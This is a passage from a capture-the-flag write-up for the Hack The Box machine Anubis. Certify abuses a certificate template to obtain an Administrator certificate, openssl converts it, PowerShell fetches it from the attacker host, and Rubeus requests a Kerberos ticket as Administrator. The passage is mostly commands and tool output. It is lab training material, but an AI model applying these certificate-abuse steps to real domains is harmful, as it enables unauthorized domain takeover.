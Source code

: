 ```
```
So Properties have been changed, now we should be able to grab a certificate for Administrator as this user is in `Domain Admins` group.
```
                                                                                                    
   _____          _   _  __                                                                                          
  / ____|        | | (_)/ _|                                                                                         
 | |     ___ _ __| |_ _| |_ _   _                                                                                    
 | |    / _ \ '__| __| |  _| | | |                                                                                   
 | |___|  __/ |  | |_| | | | |_| |                                                                                   
  \_____\___|_|   \__|_|_|  \__, |                                                                                   
                             __/ |                                                                                   
                            |___./                                                                                   
  v1.0.0                                                                                                             
                                                                                                                     
[*] Action: Request a Certificates                                                                                   
                                                                                                                     
[*] Current user context    : WINDCORP\diegocruz                                                                     
[*] No subject name specified, using current context as subject.
                                                                                                                     
[*] Template                : Web                                                                                    
[*] Subject                 : CN=Diego Cruz, OU=MainOffice, DC=windcorp, DC=htb
[*] AltName                 : Administrator                                                                          
                                                                                                                     
[*] Certificate Authority   : earth.windcorp.htb\windcorp-CA    
                                                                                                                     
[*] CA Response             : The certificate had been issued.

```
Save the `cert.pem` part and convert using openssl on Kali/attackers-box
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
Make it readable
```
chmod +r /var/www/html/cert.pfx
```
Copy to Anubis Box
```
powershell iwr http://10.10.14.6/cert.pfx -o cert.pfx
```
Make sure to grab newer version of Rubeus
```
PS C:\Windows\Tasks> .\Rubeus2.exe asktgt /user:Administrator /certificate:cert.pfx
.\Rubeus2.exe asktgt /user:Administrator /certificate:cert.pfx

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
```